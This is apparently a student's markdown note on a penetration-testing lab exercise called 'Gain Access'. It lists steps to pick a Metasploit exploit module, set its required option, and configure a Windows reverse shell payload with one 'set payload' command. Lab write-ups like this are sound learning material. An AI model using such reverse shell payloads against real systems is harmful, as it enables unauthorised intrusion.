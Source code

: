 ```yaml
---
layout: apunte
title: "2. Gain Access"
---
```


1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
   !**Pasted image 20250924152941.png**
2. Show options and set the one required value. What is the name of this value? (All caps for submission)
   !**Pasted image 20250924153208.png**
3. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
   
   `set payload windows/x64/shell/reverse_tcp`
   !**Pasted image 20250924154024.png**
